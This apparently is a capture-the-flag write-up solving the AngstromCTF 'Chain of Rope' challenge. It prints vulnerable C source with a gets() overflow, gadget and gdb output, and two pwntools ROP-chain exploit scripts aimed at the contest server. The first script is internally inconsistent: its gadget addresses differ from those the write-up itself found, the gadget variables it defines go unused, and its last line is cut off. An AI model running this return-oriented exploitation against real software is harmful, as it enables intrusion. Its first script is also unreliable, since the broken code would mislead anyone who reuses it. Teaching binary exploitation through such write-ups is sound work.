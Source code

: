 ## AngstromCTF: Chain of Rope
> defund found out about this cool new dark web browser! While he was browsing the dark web he came across this service that sells rope chains on the black market, but they're super overpriced! He managed to get the source code. Can you get him a rope chain without paying?
##### *tl;dr: chaining rop gadgets*
#### Guessing from the challenge title itself, this challenge will be solved by chaining together rop gadgets found inside the binary to get the flag. For the exploit, it can be done the hard way or the much easier way. I'll discuss the hard way first to have an understading on how to perform a simple rop chain on a 64-bit binary. 
#### Since we have the source code, first thing to do is to examine it:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int userToken = 0;
int balance = 0;

int authorize () {
	userToken = 0x1337;
	return 0;
}

int addBalance (int pin) {
	if (userToken == 0x1337 && pin == 0xdeadbeef) {
		balance = 0x4242;
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

int flag (int pin, int secret) {
	if (userToken == 0x1337 && balance == 0x4242 && pin == 0xba5eba11 && secret == 0xbedabb1e) {
		printf("Authenticated to purchase rope chain, sending free flag along with purchase...\n");
		system("/bin/cat flag.txt");
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

void getInfo () {
	printf("Token: 0x%x\nBalance: 0x%x\n", userToken, balance);
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	char name [32];
	printf("--== ROPE CHAIN BLACK MARKET ==--\n");
	printf("LIMITED TIME OFFER: Sending free flag along with any purchase.\n");
	printf("What would you like to do?\n");
	printf("1 - Set name\n");
	printf("2 - Get user info\n");
	printf("3 - Grant access\n");
	int choice;
	scanf("%d\n", &choice);
	if (choice == 1) {
		gets(name);
	} else if (choice == 2) {
		getInfo();
	} else if (choice == 3) {
		printf("lmao no\n");
	} else {
		printf("I don't know what you're saying so get out of my black market\n");
	}
	return 0;
}
```
#### From what we can analyze from the code, the entry point for our exploit will be the vulnerable gets call for the name variable when selecting the first user choice then we can proceed to jump to any function we want. But we can't do that, since the function we really need to call, `flag`, has arguments that need to be checked first before it is executed. To do that, we need to jump to the necessary functions, in a particular order, to set the needed variables. So our chain will go something like: `buffer overflow - call authorize to set userToken - call addBalance and provide the pin argument - finally call flag with the needed arguments`
#### It won't be that easy tho, since unlike 32-bit binaries which place the arguments on the stack, 64-bit binaries place arguments on registers - here is where the need for rop gadgets pop in. 
```
$ ROPgadget --binary chain_of_rope
  [...]
  0x00000000004008f3 : pop rdi ; ret
  0x00000000004008f1 : pop rsi ; pop r15 ; ret
```
#### These are the rop gadgets that we need since the functions require two arguments at most and these arguments must be placed into the rdi and rsi registers. Before we proceed to make our exploit, we need to find which offset to control rip. 
```
$ gdb ./chain_of_rope
  gdb-peda$ pattern create 100
  [...]
  
  gdb-peda$ r
  --== ROPE CHAIN BLACK MARKET ==--
  LIMITED TIME OFFER: Sending free flag along with any purchase.
  What would you like to do?
  1 - Set name
  2 - Get user info
  3 - Grant access
  1
  AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

  Program received signal SIGSEGV, Segmentation fault.
  [...]
  
  gdb-peda$ x/wx $rsp
  0x7fffffffddd8:	0x41416341
  
  gdb-peda$ pattern offset 0x41416341
  1094804289 found at offset: 56
```
#### And now that we have what we need, we'll now make the exploit. So what we'll need to do is to overflow the buffer and jump to the authorize function to set the userToken variable, next we use the pop rdi gadget for us to place the pin argument for addBalance into the rdi register, then we use the `pop rdi` and `pop rsi; pop r15` gadgets to place the pin and secret arguments for the flag function, then provide a dummy address for the program to return to (r15) and finally get the flag. Now to craft our exploit:
```python
from pwn import *

#: Connect to chall server
HOST = 'shell.actf.co'
PORT = 19400
binary = ELF('./chain_of_rope')
rop = ROP(binary)
# p = binary.process()
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code
offset = 'A' * 56
authorize = binary.symbols['authorize']
addBalance = binary.symbols['addBalance']
flag = binary.symbols['flag']

#: Gadgets
pop_rdi = p64(0x4008f3)
pop_rsi = p64(0x4008f1)

#: Rop exploit v1
context.clear(arch='amd64')
rop.raw(offset)
rop.raw(p64(authorize))
rop.raw(0x401403)
rop.raw(p64(0xdeadbeef))
rop.raw(p64(addBalance))
rop.raw(0x401403)
rop.raw(p64(0xba5eba11))
rop.raw(0x401401)
rop.raw(p64(0xbedabb1e))
rop.raw(p64(0x0))
rop.raw(p64(flag))
exploit = rop.exploit()

#: Send payload
p.sendline('1')
p.sendline(exploit)
p.interactive(
```
#### And there we have it. But we could also do this through a much simpler approach using rop.calls from pwntools. We only need to call the functions and provide their arguments, pwntools chains it for us. 
```python
#: ROP exploit v2
context.clear(arch='amd64')
rop.call(authorize)
rop.call(addBalance, [0xdeadbeef])
rop.call(flag, [0xba5eba11, 0xbedabb1e])
print(rop.dump())
exploit = offset + rop.chain()
```
#### Running our exploit script, we now get our flag! 
```actf{dark_web_bargains}```
